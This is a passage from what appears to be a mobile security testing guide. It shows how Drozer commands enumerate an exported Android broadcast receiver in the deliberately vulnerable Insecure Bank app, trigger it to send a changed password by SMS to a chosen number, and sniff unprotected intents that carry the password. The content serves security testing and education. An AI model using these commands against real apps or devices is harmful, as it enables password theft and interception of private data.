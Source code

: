 ##### Broadcast Receivers

Broadcasts can be enumerated using the Drozer module `app.broadcast.info`, the target package should be specified using the `-a` parameter:

```
dz> run app.broadcast.info -a com.android.insecurebankv2
Package: com.android.insecurebankv2
  com.android.insecurebankv2.MyBroadCastReceiver
    Permission: null
```

In the example app "Android Insecure Bank", we can see that one broadcast receiver is exported, not requiring any permissions, indicating that we can formulate an intent to trigger the broadcast receiver. When testing broadcast receivers, static analysis must also be used to understand the functionality of the broadcast receiver as we did before.

Using the Drozer module `app.broadcast.send`, it is possible to formulate an intent to trigger the broadcast and send the password to a phone number within our control:

```
dz>  run app.broadcast.send --action theBroadcast --extra string phonenumber 07123456789 --extra string newpass 12345
```

This generates the following SMS:

```
Updated Password from: SecretPassword@ to: 12345
```

###### Sniffing Intents

If an Android application broadcasts intents without setting a required permission or specifying the destination package, the intents are susceptible to monitoring by any application on the device.

To register a broadcast receiver to sniff intents, the Drozer module `app.broadcast.sniff` should be used, specifying the action to monitor with the `--action` parameter:

```
dz> run app.broadcast.sniff  --action theBroadcast
[*] Broadcast receiver registered to sniff matching intents
[*] Output is updated once a second. Press Control+C to exit.

Action: theBroadcast
Raw: Intent { act=theBroadcast flg=0x10 (has extras) }
Extra: phonenumber=07123456789 (java.lang.String)
Extra: newpass=12345 (java.lang.String)
```

#### References

##### OWASP Mobile Top 10 2016

-	M1 - Improper Platform Usage - https://www.owasp.org/index.php/Mobile_Top_10_2016-M1-Improper_Platform_Usage

##### OWASP MASVS
